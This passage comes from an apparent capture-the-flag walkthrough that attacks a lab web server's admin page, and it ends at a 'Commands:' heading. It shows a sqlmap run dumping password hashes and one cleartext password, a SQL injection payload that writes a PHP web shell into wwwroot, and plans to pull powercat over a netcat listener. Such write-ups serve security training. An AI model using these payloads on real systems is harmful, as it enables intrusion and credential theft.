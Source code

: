 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.167/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
X-Forward-For: 192.168.4.28
Connection: close
Upgrade-Insecure-Requests: 1

productName=item
```

Lets give it to ```SQLMap```:

Command:
```sqlmap --all -r req.txt --batch```

Our injections run and we find some injectable fields. The key take away are the hashes:

```
database management system users password hashes:
[*] hector [1]:
    password hash: *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
```
```
[*] manager [1]:
    password hash: *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
    clear-text password: l3tm3!n
```
```
[*] root [1]:
    password hash: *0A4A5CAD344718DC418035A1F4D292BA603134D8
```

We can take these passwords and send them into `John`. Also `sqlmap` will take a pass at them as well.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-14.png" caption="manager password." >}}

{{< figure src="__GHOST_URL__/content/images/2020/01/image-15.png" caption="hector password" >}}

We dont seem to be able to login with the credentials however. We know from our `sqlmap` run that `wwwroot` is writeable. We now need to upload a shell to this directory in order to potentially leverage these credentials internally. [This](https://offsec.vchur.dk/2019/02/24/sql-injection-rce-and-lfi/) is a quick resource. You could alternatly use `sqlmap` to [upload a file](https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/). In this case I used the former, slightly changed.

Injection:
`roductName=D-link+DWA-171'; select "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'C:\\Inetpub\\wwwroot\\oops.php';#`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-17.png" >}}

Then we check the url and see if it's live.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-16.png" >}}

Awesome, we have a basic shell. We need to now leverage this to create a more robust shell. [Powercat](https://github.com/besimorhino/powercat) is a good option here. In order to download it, first we need to host it on our machine with `SimpleHTTPServer`. Set up our `netcat` listener. Then we need to issue a fairly lengthy command to our basic shell to download powercat. Then invoke it.

Commands:
```